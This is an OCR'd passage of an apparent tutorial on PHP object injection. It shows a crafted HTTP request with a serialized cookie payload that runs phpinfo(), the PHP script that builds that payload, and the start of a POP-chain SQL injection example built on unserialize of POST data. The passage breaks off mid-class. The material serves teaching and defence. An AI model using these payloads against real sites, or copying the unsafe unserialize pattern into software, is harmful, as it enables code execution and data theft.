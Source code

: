 ```text
In this example an attacker might be able to perform a Code Injection attack by sending an HTTP request like this:

GET /vuln.php HTTP/1.0
Host: testsite.com
Cookie: data=O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
Connection: close
```

```text
data=O:8:"Example2":1:{s:14:"Example2":"hook";s:10:"phpinfo();";}
```

```text
Where the cookie parameter "data" has been generated by the following script:

class Example2
{
   private $hook = "phpinfo();";
}

print urlencode(serialize(new Example2));
```

```text
Example 3

This last example shows how it is possible to perform a SQL Injection attack using a "POP chain", for instance by leveraging a __toString method like this:

class Example3
{
   protected $obj;

   function __construct()
   {
      // some PHP code...
   }

   function __toString()
   {
      if (isset($this->obj)) return $this->obj->getValue();
   }
}

// some PHP code...

$user_data = unserialize($_POST['data']);

// some PHP code...

If the $user_data variable is an "Example3" object and it will be treated like a string somewhere in the code, then its __toString method will be called. Since this method will call the getValue method of the object stored into the "obj" property, it's possible to set that property to an arbitrary object, and execute its getValue method, if it is accessible, otherwise its __call method will be called, if it is defined. For the sake of ease, just think that when unserialize() is called, the class below is available within the application scope (or supported by autoloading):

class SQL_Row_Value
{
   private $_table;

   // some PHP code...

```